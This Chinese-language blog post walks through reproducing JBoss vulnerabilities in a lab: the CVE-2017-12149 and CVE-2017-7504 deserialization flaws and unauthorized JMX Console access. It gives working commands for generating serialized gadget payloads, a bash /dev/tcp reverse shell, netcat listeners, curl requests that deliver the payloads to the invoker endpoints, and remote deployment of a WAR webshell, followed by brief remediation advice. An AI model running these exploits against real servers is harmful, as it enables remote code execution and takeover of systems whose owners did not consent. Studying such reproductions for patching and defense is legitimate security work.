 # jboss常见漏洞复现


### JBoss 5.x/6.x 反序列化漏洞( CVE-2017-12149 )
**验证：** 访问`/invoker/readonly`，如果返回 500 ,说明页面存在,此页面存在反序列化漏洞。
![](http://image.geoer.cn/jboss_500.png)

利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译

```bash
# 我们选择一个 Gadget : ReverseShellCommonsCollectionsHashMap ,编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

2.设置反弹的IP和端口：

```bash
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.0.105:8888 # ip 是 nc 所在的 ip 
# 这样就会将序列化对象保存在ReverseShellCommonsCollectionsHashMap.ser中，用curl命令发送到Jboss服务地址
```

3.本机进行监听
```bash
nv -lvvp 8888
```

4.再打开另一个控制台，运行如下curl命令
```bash
curl http://192.168.0.100:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

5.成功反弹shell




### JBoss JMXInvokerServlet 反序列化漏洞
**验证：**  访问 `/invoker/JMXInvokerServlet`，返回如下,说明接口开放,此接口存在反序列化漏洞。
![](http://image.geoer.cn/JBossEJBInvokerServlet1.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/JMXInvokerServlet`接口中。

也可以直接利用工具检测：[工具下载地址](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)
```bash
# 运行工具即可
java -jar DeserializeExploit.jar
```


### JBoss EJBInvokerServlet 反序列化漏洞
**验证：** 访问     /invoker/EJBInvokerServlet    返回如下,说明接口开放,此接口存在反序列化漏洞。
![](http://image.geoer.cn/JBossEJBInvokerServlet.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/EJBInvokerServlet` 接口中


### 修复建议
1. 不需要`ttp-invoker.sar`组件的用户可直接删除此组件
2. 或添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中,对 http invoker 组件进行访问控制:`<url-pattern>/*</url-pattern>`




### JBoss <=4.x JBossMQ JMS 反序列化漏洞( CVE-2017-7504 )
利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译
```bash
# 选择ExampleCommonsCollections1WithHashMap，编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java   #编译 
```

2.设置反弹的IP和端口：
```bash
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/192.168.0.105/1234 0>&1"       #ser全称serialize，序列化恶意数据至文件。
```

3.本机进行监听
```bash
nv -lvvp 1234
```

4.再打开另一个控制台，运行如下curl命令
```bash
#该ser文件作为请求数据主体发送如下数据包
curl http://192.168.0.100:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser  # --data-binary 意为以二进制的方式post数据
```

5.成功反弹shell



### JMX Console 未授权访问
###### 漏洞描述
未授权访问管理控制台,通过该漏洞,可以后台管理服务,可以通过脚本命令执行系统命令,如反弹shell,wget写webshell文件。

###### 环境搭建
使用vulhub
```bash
cd vulhub/jboss/CVE-2017-7504/
docker-compose up -d

# 浏览器访问
```



###### 复现
1.未授权访问测试（无无需认证进入入控制⻚页面面）
```
http://192.168.0.100:8080/
# 进入控制页 JMX Console
http://192.168.0.100:8080/jmx-console/ 
```
![](http://image.geoer.cn/jmx_console.png)

2.点击`jboss.deployment`进入应用部署页面
![](http://image.geoer.cn/jboss_deployment.png)

3.使用apache搭建远程木马服务器(这里在kali上搭建)

```bash
# war马的制作方式：https://www.peekeyes.com/2020/01/13/%E5%88%B6%E4%BD%9Cwar%E6%9C%A8%E9%A9%AC%E5%B9%B6%E4%B8%94%E6%8B%BF%E4%B8%8Bwebshell/
jar cvf shell.war shell.jsp
```

4.通过addurl参数进行木马的远程部署

```
地址写远程服务器war马的地址
```
![](http://image.geoer.cn/jboss_war.png)

成功部署
![](http://image.geoer.cn/jboss_war_ok.png)

5.连接木马

```
http://192.168.0.100:8080/shell/shell.jsp
```
![](http://image.geoer.cn/jboss_war_connect.png)




###### 防护
- 对jmx控制页面访问添加访问验证。
- 进行JMX Console 安全配置。






---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jboss%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

